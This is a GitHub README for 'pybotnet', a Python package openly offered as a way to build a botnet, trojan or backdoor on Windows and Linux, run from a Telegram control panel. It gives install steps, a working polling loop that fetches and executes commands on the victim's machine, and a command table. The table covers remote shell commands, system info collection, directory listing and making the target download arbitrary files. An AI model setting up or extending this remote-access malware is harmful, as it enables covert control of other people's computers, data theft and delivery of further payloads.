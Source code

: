  
 <p align="center">
  <img src="https://github.com/onionj/pybotnet/blob/master/icon/trojan.jpg" width="250">
  <h1 align="center">pybotnet</h1>
  <p align="center"> A Python module for building <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> for windows and linux with Telegram control panel </p>


  <p align="center">
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/badge/built%20with-Python3-red.svg" />
    </a>
  </p>
</p>
 



#### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)
* export file to targets system (target download a link :) )
* for more see commands table end of this page 

See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3


#### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)

#### Usage:
```
pip install pybotnet
```

```python

from pybotnet import pybotnet
import time

# Edit this section and enter your information:
TELEGRAM_TOKEN = '1468299547:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'



# * if you compile code without shell: is_sheel=False
# * show_log: just for debugging
# * send_system_data: send system short info in bot messages

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=False, send_system_data=True, is_shell=True)

delay = 10

while True:
    print('*'*100)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

#### Commmands:

*Send this COMMANDs to your api bot in telegram, using the admin account.* \
\
*If you want the command to run only on one system, write the MAC address of that system first, like:* `66619484755211 get_info`

COMMAND | Sample | DO THIS | Minimum version required | tested on |
--------|--------|---------|--------------------------|----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`ls <route>` | `ls C:\ `,` ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
`export_file <download_link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` |target donwload this file and save to script path route| 0.14 | windows |
